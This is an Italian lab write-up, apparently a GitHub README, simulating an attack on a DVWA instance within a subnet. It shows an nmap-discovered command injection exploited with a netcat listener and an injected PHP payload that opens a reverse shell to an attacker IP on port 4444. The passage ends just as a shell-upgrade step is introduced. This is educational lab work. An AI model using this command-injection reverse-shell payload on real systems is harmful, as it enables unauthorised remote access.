 ## Simulazione di Attacco

**Scenario:**

Un **Utente malevolo** che ha accesso al **client-00** vuole attaccare il **client-01** che si trova sulla sua stessa sottorere.
Dopo una scansione **nmap**, scopre un **web server apache** attivo sulla porta 80 che ospita un'istanza di [DVWA](https://github.com/digininja/DVWA) un sito web **vulnerable by design** usato spesso come piattaforma di esercitazione per studenti di cyber security.

Una delle pagine del sito ha una vulnerabilità di **Command Injection** che permette di far eseguire codice **Lato Server**:

![DVWA](img/dvwa.png)

Se ci mettiamo in ascolto con **netcat**

```bash
nc -nlvp 4444
```

Possiamo inviare una **Reverse Shell** sulla porta 4444 del nostro utente malevolo, in modo da poter creare una sessione di terminale remota tramite una connessione **In uscita**, e quindi difficilmente rilevabile da un firewall (se non configurato specificamente).
Iniettiamo quindi il codice che ci permette di creare questa sessione:

```bash
127.0.0.1 && php -r '$sock=fsockopen("10.0.1.245",4444);`sh <&3 >&3 2>&3`;'
```
[Fonte](https://www.revshells.com/)

(127.0.0.1 è un qualsiasi indirizzo valido utilizzato per evitare messaggi di errore; "&&" indica la concatenzaione di comandi; il resto del comando fa eseguire del codice php che invia la sessione di terminale all'ip e alla porta specificate)

Se python è installato possiamo anche eseguire l'**upgrade della shell** con questo comando:

